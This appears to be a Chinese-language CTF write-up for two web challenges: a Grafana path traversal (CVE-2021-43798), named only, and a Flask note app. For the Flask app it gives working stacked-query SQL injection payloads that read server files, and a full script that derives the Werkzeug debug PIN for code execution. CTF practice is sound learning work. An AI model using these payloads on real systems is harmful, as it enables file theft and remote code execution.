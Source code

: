 ## web-oh-my-grafana

docker环境golang更新导致搭建不了，不过这题相当于**bytectf**也简单一点

就是**CVE-2021-43798**，flag文件就在根目录下

## web-oh-my-notepro

**sql注入+flask算pin**

奇怪的组合又多了

首先随便登陆，发现有个写文章，写篇文章

然后看文章，你就会发现上面的id很像sql注入，随便输个值就报错

在报错中你可以看到这行代码

```py
 result = db.session.execute(sql, params={"multi":True})
    db.session.commit()
 
    result = result.fetchone()
    data = {
        'title': result[4],
        'text': result[3],
    }
    return render_template('note.html', data=data)
 
```

**params={"multi":True}**这个表示可以多行注入，那么就给了我们读文件的机会

```mysql
';create table bbb(name varchar(1000));load data local infile "/sys/class/net/eth0/address" into table ctf.bbb;%23
'union select 1,2,3,4,(select group_concat(name) from ctf.bbb);%23
```

先创一个表，然后把文件存入表内的一列里面，然后读

依次可以读完所有文件(注意是**python3.8**)

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'ctf'# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.8/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '2485377957891',# str(uuid.getnode()),  /sys/class/net/ens33/address
    '1cc402dd0e11d5ae18db04a6de87223d45fb939a61656751c3cdb6a27307b9c947937dc15ebb759ec48e43dcdc76c771'# get_machine_id(), /etc/machine-id
]

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
            continue
    if isinstance(bit, str):
        bit = bit.encode("utf-8")
    h.update(bit)
h.update(b"cookiesalt")

cookie_name = f"__wzd{h.hexdigest()[:20]}"

num = None
if num is None:
    h.update(b"pinsalt")
    num = f"{int(h.hexdigest(), 16):09d}"[:9]

rv=None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = "-".join(
                num[x : x + group_size].rjust(group_size, "0")
                for x in range(0, len(num), group_size)
            )
            break
    else:
        rv = num

print(rv)
```

然后算出pin，执行根目录下的**readflag**得到flag